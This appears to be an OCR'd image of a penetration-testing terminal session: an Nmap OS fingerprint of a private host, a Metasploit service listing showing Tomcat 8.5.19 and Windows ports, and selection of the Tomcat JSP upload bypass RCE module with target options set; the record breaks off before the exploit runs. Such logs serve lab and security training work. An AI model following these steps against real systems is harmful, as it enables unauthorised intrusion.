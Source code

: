 ```
[*] Nmap: TCP/IP fingerprint:
[*] Nmap: OS:SCAN(V=7.70%E=4%D=1/31%OT=135%CT=1%CU=42098%PV=Y%DS=3%DC=I%G=Y%TM=63D888
[*] Nmap: OS:8F%P=x86_64-pc-linux-gnu)SEQ(SP=F7%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=
[*] Nmap: OS:7)OPS(O1=M546NW8ST11%O2=M546NW8ST11%O3=M546NW8NNT11%O4=M546NW8ST11%O5=M5
[*] Nmap: OS:46NW8ST11%O6=M546ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=200
[*] Nmap: OS:0)ECN(R=Y%DF=Y%T=7F%W=2000%O=M546NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=7F%S=O%A=S
[*] Nmap: OS:+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=7F%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%
[*] Nmap: OS:T=7F%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=7F%W=0%S=A%A=O%F=R%O=%RD=
[*] Nmap: OS:0%Q=)T5(R=Y%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=7F%W=0%
[*] Nmap: OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
[*] Nmap: OS:R=Y%DF=N%T=7F%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
[*] Nmap: OS:N%T=7F%CD=Z)
[*] Nmap: Network Distance: 3 hops
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 86.85 seconds
```

```
msf5 > services
Services
========

host        port   proto  name               state  info
----        ----   -----  ----               -----  ----
10.0.25.99  135    tcp    msrpc              open   Microsoft Windows RPC
10.0.25.99  139    tcp    netbios-ssn        open   Microsoft Windows netbios-ssn
10.0.25.99  445    tcp    microsoft-ds       open   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
10.0.25.99  3389   tcp    ssl/ms-wbt-server  open   
10.0.25.99  8009   tcp    ajp13              open   Apache Jserv Protocol v1.3
10.0.25.99  8080   tcp    http               open   Apache Tomcat 8.5.19
10.0.25.99  49152  tcp    msrpc              open   Microsoft Windows RPC
10.0.25.99  49153  tcp    msrpc              open   Microsoft Windows RPC
10.0.25.99  49154  tcp    msrpc              open   Microsoft Windows RPC
10.0.25.99  49155  tcp    msrpc              open   Microsoft Windows RPC
```

```
msf5 > search type:exploit tomcat_jsp

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2017-10-03       excellent  Yes    Tomcat RCE via JSP Upload Bypass


msf5 > use exploit/multi/http/tomcat_jsp_upload_bypass
msf5 exploit(multi/http/tomcat_jsp_upload_bypass) > show options

Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.25.99       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
```